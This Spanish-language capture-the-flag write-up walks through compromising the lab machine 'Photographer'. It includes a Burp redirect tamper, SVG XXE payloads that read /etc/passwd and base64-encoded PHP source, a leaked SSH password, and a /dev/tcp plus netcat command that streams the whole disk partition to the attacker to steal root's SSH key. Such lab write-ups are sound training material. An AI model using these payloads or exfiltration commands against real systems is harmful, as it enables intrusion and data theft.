# 🖥️ Write-Up: [PHOTOGRAPHER](https://labs.thehackerslabs.com/machine/142)

## 📌 Información General
    - Nombre de la máquina: Photographer
    - Plataforma: The Hackers Labs
    - Dificultad: Avanzado
    - Creador: d4redevil
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---

## 🔍 Enumeración

Nuestra ip es la **10.0.5.5**

La máquina Photographer tiene la ip **10.0.5.9**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina utilizando la herramienta **nmap**.



La máquina tiene abiertos los puertos **22** y **80**. Ahora vamos a ver que versiones y servicios se están ejecutando en ellos.



- El puerto 22 está ejecutando un servicio de OpenSSH.  
- El puerto 80 está ejecutando un servicio web con Apache.

**Nota:** Si se enumeran los puertos por **udp** se obtiene información útil, yo no lo hice, así que una parte de la intrusión cambia un poco.

### Puerto 80

Si accedemos con el navegador vemos un blog de fotografía. En él, tenemos un posible nombre de usuario **ethan**.



Empleamos la herramienta **gobuster** para enumerar subdirectorios del blog.



Tenemos un subdirectorio **/admin**, si accedemos a él, vemos un panel de login pero no disponemos de credenciales.



Volvemos a enumerar subdirectorios pero esta vez dentro de **/admin** .



- **db.php** no carga nada de contenido.
- **upload.php** nos devuelve un **Internal Server Error**
- **admin.php** nos llama la atención el tamaño de su respuesta, ya que se aplica una redirección a **index.php** pero el número de caracteres que devuelve es superior al de ese archivo.

## 🔥 Explotación

Abrimos **Burpsuite**, activamos el proxy de burpsuite en el navegador e interceptamos la petición a **/admin/admin.php**. 

Hacemos click derecho sobre la petición a **admin.php** y seleccionamos **Do intercept > Responde to this request** y pulsamos en **Forward** para mandar la petición.



Ahora podemos ver la respuesta y si la revisamos, observamos que se está filtrando el contenido de **admin.php**



Para poder acceder a él, vamos a cambiar el códido **302 Found** de la respuesta por un código **200 OK** y le damos a **Forward**.



Ahora desde el navegador y con el proxy de burpsuite activado podemos ver el contenido.




Tenemos un panel en el que podemos subir fotos. Vamos a analizar esta petición con el **Repeater** para ver si podemos inyectar código.

Tras varias pruebas de subida de archivos, encontramos una forma de ejecutar una **XXE Injection** utilizando una imagen svg. 

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Enviamos la inyección con un **Content-Type: image/svg+xml** y conseguimos ver el **/etc/passwd**. El cuál nos confirma al usuario **ethan** en el servidor.



Vamos a leer el contenido de los archivos **php** que hemos encontrado aplicando fuzzing. Para poder hacerlo aplicamos un **wrapper** de php que nos mostrará el contenido del archivo en base64.

```
php://filter/convert.base64-encode/resource=<archivo>
```

Lo introducimos en nuestra **XXE Injection** cambiando archivo por **upload.php** y posteriormente por **db.php**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

El contenido que nos interesa está en **db.php**.



De este modo, en la respuesta tenemos en base64 el contenido de los archivos, ahora solo queda decodificarlos de base64.

Tras revisarlos, encontramos una contraseña de una base de datos en **db.php**, la cual resulta ser la contraseña de ssh del usuario **ethan**.



## 🔑 Acceso SSH

Accedemos por ssh con **ethan:pjtF0533OPiSMQTGZacZY6jy$**

```bash
ssh ethan@10.0.5.9
```

Aquí tenemos la primera flag:



## 🧗 Escalada de Privilegios
### Root

Si revisamos los grupos a los que pertenece nuestro usuario con el comando **id** vemos que estamos en el grupo **disk**, el cual nos da la posibilidad de leer el contenido de las particiones del disco, eso sí, al no disponer de una herramienta como **debugfs** únicamente podemos ver el contenido bruto.

Por lo tanto, vamos a realizar la escalada con un método bastante "bruto" y poco óptimo pero funciona.

Míramos en que partición está montado el contenido del sistema con `df -h`. 



Está en **/dev/sda1**, por lo que nos vamos a pasar su contenido a nuestro máquina, tomará algo de tiempo ya que son casi **20GB**. 

Nos ponemos en escucha en nuestra máquina con **netcat** y redirigimos su salida a un archivo llamado **data**

```bash
nc -nlvp 100 > data
```

Y en la máquina **Photographer** ejecutamos
```bash
cat /dev/sda1 > /dev/tcp/10.0.5.5/100
```

Tras un rato, ya tenemos en nuestra máquina esa partición del disco, ahora creamos un nuevo directorio en nuestro directorio actual, que llamaremos **photo**, para montar en él esta partición con **mount**

```bash
sudo mount data photo
```

Una vez hecho, tenendremos todo el contenido de la máquina en ese directorio y con el usuario **root** de **nuestra máquina** lo podremos ver.



Ahora vamos a obtener la **id_rsa** que está en ese directorio root.



Una vez obtenida la **id_rsa** desmontamos la partición creada.

`sudo umount <ruta de la partición de la máquina Photographer>`

Y nos conectamos como el usuario **root**.

